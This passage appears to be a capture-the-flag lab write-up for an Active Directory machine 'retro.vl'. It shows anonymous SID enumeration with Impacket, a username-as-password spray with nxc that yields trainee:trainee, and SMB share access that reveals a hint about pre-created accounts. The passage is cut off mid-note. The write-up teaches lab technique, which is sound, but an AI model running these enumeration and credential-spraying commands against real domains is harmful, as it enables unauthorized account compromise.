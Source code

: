 Seems like there is a standard account with an easily guessable password. 
Since we have anonymous access we can enumerate usernames via `lookupsid.py`

```bash
lookupsid.py -no-pass anonymous@retro.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at retro.vl
[*] StringBinding ncacn_np:retro.vl[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
[...]
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)
```
which yields a users list
```bash
cat x | grep SidTypeUser | cut -d'\' -f2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC$
trainee
BANKING$
jburley
tblack
```

## Usernames → Password brute force
At this point, we can do the typical `username=password` test to check if we can compromise 
an account.
```bash {hl_lines=[5]}
nxc smb domain -u users.txt -p users.txt --no-bruteforce --continue-on-success
SMB         10.10.104.73    445       [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.104.73    445       [-] retro.vl\Administrator:Administrator STATUS_LOGON_FAILURE 
[...]
SMB         10.10.104.73    445       [+] retro.vl\trainee:trainee 
[...]
```
We gain the credentials `trainee:trainee`

## Pre2k accounts
The next hint is again in the SMB share Notes:
```
echo -n trainee |tee pass >  user
smbclient.py $(<user):$(<pass)@$(<domain)
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Notes
# ls
drw-rw-rw-          0  Mon Jul 24 00:03:16 2023 .
drw-rw-rw-          0  Wed Jul 26 11:54:14 2023 ..
-rw-rw-rw-        248  Mon Jul 24 00:05:56 2023 ToDo.txt
# cat ToDo.txt
```
> Thomas,
> 
> after convincing the finance department to get rid of their ancienct banking software
> it is finally time to clean up the mess they made. We should start with the pre created